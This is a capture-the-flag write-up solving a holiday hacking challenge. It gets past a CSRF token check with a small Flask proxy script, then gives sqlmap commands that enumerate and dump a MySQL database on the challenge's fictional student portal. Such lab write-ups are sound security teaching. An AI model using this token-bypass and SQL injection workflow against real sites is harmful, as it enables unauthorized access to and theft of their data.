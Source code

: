 # Retrieve the Scraps of Paper from Server
**Hint**: [Pepper Minstix - "Graylog"](../hints/h9.md)

## Request
> Gain access to the data on the [Student Portal](https://studentportal.elfu.org/) server and retrieve the paper scraps hosted there.  
> What is the name of Santa's cutting-edge sleigh guidance system?  
> For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix.  
>  
> Krampus:  
> Unfortunately, I managed to lock out my account on the server.  
> Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?  
> I give you permission to hack into it, solving Objective 9 in your badge.  
> And, as long as you're traveling around, be sure to solve any other challenges you happen across.

## Resources
- [Student Portal](https://studentportal.elfu.org/)
- [OWASP SQL Injection](https://www.owasp.org/index.php/SQL_injection)
- [SQLMAP Tamper Scripts for The Win](https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win)

## Solution
Pepper hints at using blind SQLi to retrieve the scraps from the server but whipping out [sqlmap](http://sqlmap.org) won't do us much good at this point. Both the `apply.php` and `check.php` pages contain a set of custom JavaScript functions that first retrieve a token value from `validator.php`. This value is then added to the form data and submitted to the server as a way to prevent [Cross-site request forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) (CSRF). For each request the server will first check the token and only accept the request if the token is valid.

![JavaScript](../img/challenges/c9/c9_1.png)

In other words, unless we tell sqlmap to submit a valid token with each of its requests, chances are the SQLi attempts won't even hit the backend database. Fortunately for us sqlmap has a `--csrf-url` option which allows you to specify a URL from where to retrieve tokens. Unfortunately for us, sqlmap also requires specifying the token field name via the `--csrf-token` option and `validator.php` doesn't set any token field names. It just returns the token value as-is.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url https://studentportal.elfu.org/validator.php --csrf-token=
```

![Token Response](../img/challenges/c9/c9_2.png)
![Sqlmap Fail](../img/challenges/c9/c9_3.png)

The problem can be solved by translating the `validator.php` response data to a format that sqlmap accepts (i.e. contains a token field name in the header or response body). When the below [Flask proxy script](../scripts/token_proxy.py.md) script receives a GET request it grabs a token value from `validator.php` and adds it as the value to a `token` field in both the header and body of its own HTTP response. 

```python
#!/usr/bin/env python3
# token_proxy.py
import requests
from flask import Flask, Response
app = Flask(__name__)


@app.route("/")
def token():
    """Return a token."""
    url = 'https://studentportal.elfu.org/validator.php'
    token = requests.Session().get(url).text
    # Put the token in the body, input tag, and header.
    resp = Response(
        f'Token:{token}\n'
        '<form>\n'
        f'  <input type="hidden" id="token" name="token" value="{token}"/>\n'
        '</form>\n'
    )
    resp.headers['token'] = token
    return resp


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

Start the Flask proxy app so it's ready to respond to incoming token requests.

```shell
python3 token_proxy.py
```

![Flask Proxy](../img/challenges/c9/c9_5.png)
![Proxy Token Response](../img/challenges/c9/c9_4_both.png)

Now run the earlier sqlmap command again but with the `--csrf-url` parameter set to our proxy listening on 127.0.0.1:5000 and `--csrf-token` set to 'token'. This will allow sqlmap to send valid HTTP requests to the server and execute its SQLi attacks.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token
```

![Sqlmap Success 1](../img/challenges/c9/c9_6.png)
![Sqlmap Success 2](../img/challenges/c9/c9_7.png)

We now know the database type (i.e. MySQL) and that the setup is vulnerable to at least three types of SQL Injection attacks via the `elfmail` GET parameter: boolean-based blind, error-based, and time-based blind. Grab an overview of the available databases.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql --dbs
```

![Sqlmap DBs](../img/challenges/c9/c9_8.png)

`information_schema` is a default MySQL database so request the tables for `elfu`.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql --tables -D elfu
```

![Sqlmap Tables](../img/challenges/c9/c9_9.png)

Out of the three tables in the `elfu` database `krampus` looks like a good candidate so let's dump that.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql -D elfu -T krampus --dump
```

![Sqlmap Dump](../img/challenges/c9/c9_10.png)

Well that looks pretty promising. Download the PNG files from the Student Portal and reassemble them using an image editor.

![Letter](../img/challenges/c9/letter.png)

Looks we're still missing an important piece of the letter which could help identify our attacker and solve this whole mystery, but at least we now know the name of Santa's cutting-edge sleigh guidance system, `Super Sled-o-matic`.

## Answer
Sleigh guidance system name: `Super Sled-o-matic`

## Hint
> Wow! We’ve uncovered quite a nasty plot to destroy the holiday season.  
> We’ve gotta stop whomever is behind it!  
> I managed to find this protected document on one of the compromised machines in our environment.  
> I think our attacker was in the process of exfiltrating it.  
> I’m convinced that it is somehow associated with the plan to destroy the holidays. Can you decrypt it?  
> There are some smart people in the NetWars challenge room who may be able to help us.
